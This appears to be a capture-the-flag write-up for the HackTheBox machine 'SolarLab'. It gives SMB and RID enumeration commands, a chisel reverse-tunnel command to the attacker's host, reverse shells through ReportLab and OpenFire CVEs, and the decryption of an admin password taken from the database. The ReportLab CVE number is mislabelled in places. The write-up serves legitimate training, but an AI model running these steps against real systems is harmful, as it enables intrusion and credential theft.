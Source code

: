 # HTB – SolarLab
### TL;DR
This is a Windows 10 machine with a SMB share configured to allow guest sessions. In the shared resource we find usernames and passwords, and after a RID bruteforce we  get more usernames. A user shell is achieved exploiting CVE-2023-32315 in a Reportlab application running in the host. Regarding escalation, we move laterally exploiting CVE-2023-32315 in OpenFire, then decrypt the administrator password which is stored in the OpenFire database.
### KEYWORDS
SMB guest sessions, RID bruteforce, Reportlab, CVE-2023-32315, OpenFire, CVE-2023-3231.
### REFERENCES
https://github.com/c53elyas/CVE-2023-33733<br>
https://github.com/miko550/CVE-2023-32315<br>
https://hashcat.net/forum/thread-2399.html<br>
<br>
### ENUMERATION
Port scan.
```markdown
> nmap $target -p- --min-rate=5000 -Pn --open --reason
Starting Nmap 7.93 ( https://nmap.org ) at 2024-05-12 11:05 EDT
Nmap scan report for 10.10.11.16
Host is up, received user-set (0.043s latency).
Not shown: 65530 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE      REASON
80/tcp   open  http         syn-ack
135/tcp  open  msrpc        syn-ack
139/tcp  open  netbios-ssn  syn-ack
445/tcp  open  microsoft-ds syn-ack
6791/tcp open  hnm          syn-ack

Nmap done: 1 IP address (1 host up) scanned in 26.47 seconds
```
Enumerate the open ports.
```markdown
> nmap $target -p80,135,139,445,6791 -sV -sC -Pn -vv -n
Starting Nmap 7.93 ( https://nmap.org ) at 2024-05-12 11:06 EDT
Nmap scan report for 10.10.11.16
Host is up, received user-set (0.036s latency).
Scanned at 2024-05-12 11:06:54 EDT for 53s

PORT     STATE SERVICE       REASON  VERSION
80/tcp   open  http          syn-ack nginx 1.24.0
|_http-server-header: nginx/1.24.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://solarlab.htb/
135/tcp  open  msrpc         syn-ack Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack
6791/tcp open  http          syn-ack nginx 1.24.0
|_http-server-header: nginx/1.24.0
|_http-title: Did not follow redirect to http://report.solarlab.htb:6791/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-05-12T15:07:16
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 30723/tcp): CLEAN (Timeout)
|   Check 2 (port 64857/tcp): CLEAN (Timeout)
|   Check 3 (port 60230/udp): CLEAN (Timeout)
|   Check 4 (port 48381/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: 7s

Nmap done: 1 IP address (1 host up) scanned in 54.26 seconds
```
Take note of the disclosed subdomain, add to hosts file and continue enumerating. Next step is to check if the host accepts SMB null sessions.
```markdown
> smbmap -H solarlab.htb -u null -p null
[+] Guest session       IP: solarlab.htb:445    Name: unknown
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        Documents                                               READ ONLY
        IPC$                                                    READ ONLY       Remote IPC
```
Enumerate the contents of the `Documents` folder.
```markdown
> smbclient \\\\solarlab.htb\\Documents -U=guest 
Password for [WORKGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  DR        0  Fri Apr 26 10:47:14 2024
  ..                                 DR        0  Fri Apr 26 10:47:14 2024
  concepts                            D        0  Fri Apr 26 10:41:57 2024
  desktop.ini                       AHS      278  Fri Nov 17 05:54:43 2023
  details-file.xlsx                   A    12793  Fri Nov 17 07:27:21 2023
  My Music                        DHSrn        0  Thu Nov 16 14:36:51 2023
  My Pictures                     DHSrn        0  Thu Nov 16 14:36:51 2023
  My Videos                       DHSrn        0  Thu Nov 16 14:36:51 2023
  old_leave_request_form.docx         A    37194  Fri Nov 17 05:35:57 2023

                7779839 blocks of size 4096. 1892766 blocks available
smb: \>
```
Download the `details-file.xlsx` file, it contains personal data and credentials.

![Untitled2](https://github.com/user-attachments/assets/ba13b1c5-efe8-40d1-93dd-42153961b972)

Since guests sessions are enabled, let's brute force the RID to get a list of valid usernames.
```markdown
> crackmapexec smb solarlab.htb -u guest -p '' --rid-brute
SMB         10.10.11.16     445    SOLARLAB         [*] Windows 10.0 Build 19041 x64 (name:SOLARLAB) (domain:solarlab) (signing:False) (SMBv1:False)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\guest: 
SMB         10.10.11.16     445    SOLARLAB         [+] Brute forcing RIDs
SMB         10.10.11.16     445    SOLARLAB         500: SOLARLAB\Administrator (SidTypeUser)
SMB         10.10.11.16     445    SOLARLAB         501: SOLARLAB\Guest (SidTypeUser)
SMB         10.10.11.16     445    SOLARLAB         503: SOLARLAB\DefaultAccount (SidTypeUser)
SMB         10.10.11.16     445    SOLARLAB         504: SOLARLAB\WDAGUtilityAccount (SidTypeUser)
SMB         10.10.11.16     445    SOLARLAB         513: SOLARLAB\None (SidTypeGroup)
SMB         10.10.11.16     445    SOLARLAB         1000: SOLARLAB\blake (SidTypeUser)
SMB         10.10.11.16     445    SOLARLAB         1001: SOLARLAB\openfire (SidTypeUser)
```
We have found user `SOLARLAB\blake`. If we see how usernames are formed in the `.xlsx` file, username should be `BlakeB`

### USER
Log in subdomain http://report.solarlab.htb:6791 with credentials `blakeb:ThisCanB3typedeasily1@`. A Reportlab welcome page appears.<br>
<br>
A CVE and a POC for Reportlab application are available here: https://github.com/c53elyas/CVE-2023-33733<br>
<br>
Click on "Travel Approval".

![Untitled3](https://github.com/user-attachments/assets/9c92aabf-94a5-4d09-87f9-6be79abd1e4f)

Generate request, upload a `.png` and capture with Burpsuite. Insert a payload after the `travel_request` parameter as indicated in the POC.

![Untitled](https://github.com/user-attachments/assets/261a6092-2410-4682-b2bd-adb22b9ec5d0)

Start a listener and send the request, a reverse shell is received. It can be used to retrieve the user flag.
### SYSTEM
Place a chisel to forward internal ports 9090 and 9091.<br>
<br>
In kali.
```markdown
./chisel64 server -p 8000 --reverse
```
In the reverse shell.
```markdown
.\chisel64.exe client <your_ip>:8000 R:9090:127.0.0.1:9090 R:9091:127.0.0.1:9091
```
Navigate to http://localhost:9090, an OpenFire server pops up. Add a new user following instructions in: https://github.com/miko550/CVE-2023-32315<br>
<br>
Then upload a `.jar` plugin (taken from the same GitHub repository) to enable a command console. After uploading the plugin, navigate to Server -> Server Settings -> Management Tool, and select "System command". Insert a reverse shell, for example a powershell base64 encoded payload. A shell as user `openfire` is received on the listener.<br>
<br>
Unser this shell you can enumerate the file `C:\program files\openfire\embedded-db\openfire.script`. This file contains an encrypted OpenFire admin password.
```markdown
INSERT INTO OFUSER VALUES('admin','gjMoswpK+HakPdvLIvp6eLKlYh0=','9MwNQcJ9bF4YeyZDdns5gvXp620=','yidQk5Skw11QJWTBAloAb28lYHftqa0x',4096,NULL,'becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442','Administrator','admin@solarlab.htb','001700223740785','0')
```
And a blowfish key which is needed to decrypt the key.
```markdown
INSERT INTO OFPROPERTY VALUES('passwordKey','hGXiFzsKaAeYLjn',0,NULL)
```
To decrypt the password you can use any of the OpenFire password decrypters available online, such as this: https://hashcat.net/forum/thread-2399.html<br>
<br>

![Untitled5](https://github.com/user-attachments/assets/309e6af8-f668-4907-8245-3bab2d450275)

Once you have the administrator password, just use it login as as system.

![Untitled6](https://github.com/user-attachments/assets/5db80520-74bf-4956-886c-4071a6193b41)

You are root.

